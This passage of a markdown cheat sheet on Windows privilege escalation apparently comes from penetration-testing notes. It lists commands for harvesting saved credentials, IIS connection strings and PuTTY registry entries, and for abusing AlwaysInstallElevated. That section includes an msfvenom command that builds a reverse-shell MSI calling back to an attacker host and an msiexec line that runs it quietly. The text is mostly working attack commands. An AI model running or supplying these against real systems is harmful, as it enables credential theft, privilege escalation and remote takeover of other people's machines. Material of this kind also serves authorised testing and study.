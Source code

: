 ### Saved Windows Credentials
```bat
cmdkey /list
runas /savecred /user:admin cmd.exe
```

### IIS Configuration
```powershell
Get-Content "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config" | Select-String "connectionString"
```

### Putty Credentials
```bat
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### AlwaysInstallElevated
Windows installer files (`.msi` files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones).

Check registry values regarding `AlwaysInstallElevated`:
```bat
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o revshell.msi
```

Payload execution:
```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\revshell.msi
```


## Abusing Dangerous Privileges

List of privileges on Windows - [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)\
List of exploitable privileges - [Priv2Admin](https://github.com/gtworek/Priv2Admin)

Check user privileges:
```bat
whoami /priv
```

### SeBackup or SeRestore
The `SeBackup` and `SeRestore` privileges allow users to read and write to any file in the system, ignoring any `DACL` (Discretionary Access Control Lists) in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.
